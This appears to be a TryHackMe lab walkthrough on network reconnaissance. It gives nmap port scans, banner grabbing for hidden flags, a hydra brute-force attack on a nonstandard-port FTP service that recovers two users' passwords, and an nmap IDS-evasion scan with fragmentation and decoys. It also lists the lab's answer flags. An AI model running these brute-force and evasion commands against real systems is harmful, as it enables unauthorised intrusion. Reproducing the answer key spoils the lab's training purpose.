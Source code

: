 Objectives:

Only use nmap, telnet and hydra for this task.


Q: What is the highest port number being open less than 10,000?
```
Method:

$ sudo nmap -sT <TARGET IP> -p 1-10000

Result:

<SNIP>
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
139/tcp  open     netbios-ssn
445/tcp  open     microsoft-ds
4259/tcp filtered vrml-multi-use
6502/tcp filtered netop-rc
8080/tcp open     http-proxy
8954/tcp filtered cumulus-admin
<SNIP>

From our results we can see that the highest *open* port is 8080
```
A: 8080

Q: There is an open port outside the common 1000 ports; it is above 10,000. What is it?
```
Method:

As seen previously, my nmap scan was narrowed down to every port below 10,000 for this question I must try the following

(I chose to 15000 to have a shorter scan and hopefully discover the port rather than 10000 all the way to 65355)

$ sudo nmap -sT <TARGET IP> -p 10000-15000 -v10

Result:

<SNIP>
PORT      STATE SERVICE REASON
10021/tcp open  unknown syn-ack
<SNIP>
```
A: 10021

Q: How many TCP ports are open?
```
Method:

Just based off of the previous two scan results I'd assume that there are a total of 6 TCP ports explicitly open

```
A: 6

Q: What is the flag hidden in the HTTP server header?
```
Method:

We know that telnet can connect to services that operate in plaintext communication, so it is perfect for HTTP header grabbing due to HTTP not having either TLS or SSL

Let's connect:

$ telnet <TARGET IP> 80

Result:
Trying <TARGET IP>...
Connected to <TARGET IP>.

Next we must craft a HTTP request and send it to the HTTP server

Input:
GET / HTTP/1.1.
host: telnet

Result:

<SNIP>
HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Type: text/html
Accept-Ranges: bytes
ETag: "229449419"
Last-Modified: Tue, 14 Sep 2021 07:33:09 GMT
Content-Length: 226
Date: Thu, 18 May 2023 22:31:32 GMT
Server: lighttpd THM{web_server_25352}
<SNIP>


```
A: THM{web_server_25352}

Q: What is the flag hidden in the SSH server header?
```
Method:

$ nmap -sV --script banner <TARGET IP> -p 22

Result:

<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
|_banner: SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.93%I=7%D=5/18%Time=6466A883%P=aarch64-unknown-linux-gnu%
SF:r(NULL,29,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\r\n");
<SNIP>

```
A: THM{946219583339}

Q: We have an FTP server listening on a nonstandard port. What is the version of the FTP server?
```
Method:

Let's try running the nmap script we ran previously but with ftp, I am going to attempt to target that "higher than 10000" TCP port we discovered earlier to see if that is the nonstandard port. I see "21" within 10021 which is FTP's standard port.

$ nmap -sV --script banner <TARGET IP> -p 10021

Result:
<SNIP>
PORT      STATE SERVICE VERSION
10021/tcp open  ftp     vsftpd 3.0.3
|_banner: 220 (vsFTPd 3.0.3)
Service Info: OS: Unix
<SNIP>
```
A: vsftpd 3.0.3

Q: We have learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?
```
Method:

Now it seems like it's time for some bruteforcing, lets use hydra.

I am going to use a wordlist called rockyou.txt which is a popular leak file of commonly used passwords

$ hydra -l "eddie" -P /usr/share/wordlists/rockyou.txt <TARGET IP> -s 10021 ftp

Result:
<SNIP>
[10021][ftp] host: <TARGET IP>   login: eddie   password: jordan
<SNIP>

lets also grab quinn's login

$ hydra -l "quinn" -P /usr/share/wordlists/rockyou.txt <TARGET IP> -s 10021 ftp

Result:
<SNIP>
[10021][ftp] host: <TARGET IP>   login: quinn   password: andrea
<SNIP>

lets check out their ftp areas with

$ ftp <username>@<TARGET IP> -p 10021

ftp will then ask us to input the relevent passwords.

when using "dir" eddie's area reported an empty directory so I moved on to quinn, when using "dir" I see a ftp_flag.txt file

in ftp, to retrieve the file I

$ get ftp_flag.txt

Result:
<SNIP>
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
100% |**********************************************************************|    18        4.56 KiB/s    00:00 ETA
226 Transfer complete.
18 bytes received in 00:00 (0.41 KiB/s)
<SNIP>

exit the ftp with "exit" command and then:

$ cat ftp_flag.txt

Result:
THM{321452667098}
```
A: THM{321452667098}

Q: Browsing to http://<TARGET IP>:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?

```
Method:

Head to browser and view site:
Your mission is to use Nmap to scan 10.10.200.175 (this machine)
as covertly as possible and avoid being detected by the IDS.

This seems to me like some fragmentation + random decoy IP's might be needed to evade detection. Connection based scans may not be suitable here as they make too much noise so lets try a null scan.

$ sudo nmap -sN -f -D RND:5,<MY IP> <TARGET IP>

Result:
(on website)

Exercise Complete! Task answer: THM{f7443f99} 
```

A: THM{f7443f99}

LAB COMPLETED